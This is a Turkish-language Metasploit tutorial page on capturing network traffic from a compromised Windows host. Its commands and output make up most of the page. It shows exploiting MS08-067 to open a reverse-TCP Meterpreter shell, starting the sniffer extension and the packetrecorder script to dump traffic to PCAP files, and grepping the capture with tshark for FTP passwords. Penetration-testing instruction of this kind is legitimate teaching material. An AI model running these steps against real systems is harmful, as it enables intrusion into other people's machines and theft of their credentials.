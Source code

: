 ```yaml
---
draft: false
title: MSF Paket Dinleme
linkTitle: Paket Dinleme
translationKey: msf-packet-sniffing
weight: 300
date: 2017-06-05T13:32:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme paket dinleme adı verilmektedir.
url: /tr/msf-paket-dinleme/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## Paket Dinleme

Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme **paket dinleme** adı verilmektedir.

Meterpreter, `sniffer` modülü ile bu trafiği kaydedebilirsiniz. Toplamda 200.000 pakete kadar kayıt yapabilen `sniffer` modülü, paketleri PCAP formatında kaydeder. Böylece PCAP dosyasını `psnuffle, dsniff veya wireshark` programlarıyla analiz edebilirsiniz.

Meterpreter `sniffer` eklentisi MicroOLAP Packet Sniffer SDK kullanır. Paketleri dinlemek için diskin herhangi bir yerinden veri alıp verme işlemi yapmaz. Ayrıca, meterpreter tarafından oluşturulan paketler kayıt dışı tutarak karışıklığın önüne de geçer. Meterpreter tarafından yakalanan veriler, bilgisayarımıza SSL/TLS kullanılarak şifreli olarak aktarılır.

## Meterpreter Oturum Açalım

Öncelikle keşfettiğiniz bir servis veya zafiyeti kullanarak meterpreter oturumu açmalısınız. Aşağıda örneğini görebilirsiniz.

```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpeter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST 10.211.55.126
msf exploit(ms08_067_netapi) > set RHOST 10.10.1.119
msf exploit(ms08_067_netapi) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Triggering the vulnerability...
> Transmitting intermediate stager for **over-sized stage...(216 bytes)
> Sending stage (205824 bytes)
> Meterpreter session 1 opened (10.10.1.4:4444 -> 10.10.1.119:1921)
```

## Sinffer Modülünü Yükleyelim

Meterpreter oturumu açıldığında `use sniffer` komutuyla eklentiyi aktif hale getirmeliyiz. Ardında `help` komutunu verdiğinizde, yardım listesinde `sniffer` ile ilgili kullanılabilir durumda olan komutları görebilirsiniz.

```bash
meterpreter > use sniffer
Loading extension sniffer...success.

meterpreter > help

Sniffer Commands
**================**

     Command             Description
     -------             -----------
     sniffer_dump        Retrieve captured packet data
     sniffer_interfaces  List all remote sniffable interfaces
     sniffer_start       Capture packets on a previously opened interface
     sniffer_stats       View statistics of an active capture
     sniffer_stop        Stop packet captures on the specified interface
```

## Dinlenebilir Arayüzler

Hedef sistemde hangi ağ arayüzlerinin aktif olduğunu görmek için `sniffer_interfaces` komutunu kullanarak listeyi inceliyoruz.

```bash
meterpreter > sniffer_interfaces

1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
```

## Dinlemeye Başlama

Bizim örneğimizde 1 adet arayüz bulunmaktadır. Bu ağ cihazını dinlemek için `sniffer_start 1` komutunu veriyoruz. Bilgiler `/tmp/all.cap` dosyasına kayıt edilecektir.

```bash
meterpreter > sniffer_start 1
> Capture started on interface 1 (200000 packet buffer)
```

## Kayıtları Kontrol Etme

Dinleme işlemi devam ederken, ne kadar paketin kayıt edildiğini görmek için `sniffer_dump` komutunu kullanarak kaç adet paketin dosyaya yazıldığını görebilirsiniz.

```bash
meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 19 packets to PCAP file /tmp/all.cap

meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 199 packets to PCAP file /tmp/all.cap
```

## packetrecorder Eklentisi

Meterpreter `sniffer` eklentisinin yanında paket dinleme için geliştirilen `packetrecorder` script kodlarını da kullanabilirsiniz. Bu modül, paket kayıtlarını belirli zaman aralıklarına bölmenizi sağlar. Örneğin 30 Saniye aralıklarla kayıt yapmak isteyebilirsiniz.

### packetrecorder Aktif Hale Getirelim

```bash
meterpreter > run packetrecorder 
Meterpreter Script for **capturing packets **in **to a PCAP file
on a target host given a interface ID.

OPTIONS:

    -h        Help menu.
    -i   Interface ID number where all packet capture will be **done**.
    -l   Specify and alternate folder to save PCAP file.
    -li        List interfaces that can be used for **capture.
    -t   Time interval **in **seconds between recollection of packet, default 30 seconds.
```

Dinlemeye başlamadan önce, dinlenebilir arayüzlerin listesini kontrol edelim.

```bash
meterpreter > run packetrecorder -li

1 - 'Realtek RTL8139 Family PCI Fast Ethernet NIC' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
2 - 'Citrix XenServer PV Ethernet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
3 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
```

Bu örneğimizde 3 adet ağ cihazı olduğunu görüyoruz. `-i 2` seçeneği ile 2 numaralı arayüzü dinleyeceğimizi belirtmiş oluyoruz. `-l /root/` seçeneği ile PCAP dosyasının nereye kayıt edileceğini belirliyoruz. Dinleme başladığından bir süre sonra işlemi bitirmek için `CTRL+C` tuşlarını kullanabilirsiniz.

```bash
meterpreter > run packetrecorder -i 2 -l /root/
> Starting Packet capture on interface 2
[+] Packet capture started
> Packets being saved **in **to /root/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105/XEN-XP-SP2-BARE_20101119.5105.cap
> Packet capture interval is 30 Seconds
^C
> Interrupt 
[+] Stopping Packet sniffer...
meterpreter >
```

Kayıt edilen PCAP dosyasını `wireshark` veya `tshark` programıyla analiz edebilirsiniz. Aşağıda `tshark` komutuna ait bir örnek bulunmaktadır. Örnek komutta, paketlerin içinde geçen `PASS` ifadesinin bulunduğu paketler aranmaktadır.

```bash
root@kali:~/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105# tshark -r XEN-XP-SP2-BARE_20101119.5105.cap |grep PASS
Running as user "root" and group "root". This could be dangerous.
2489  82.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t
2685  96.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t```
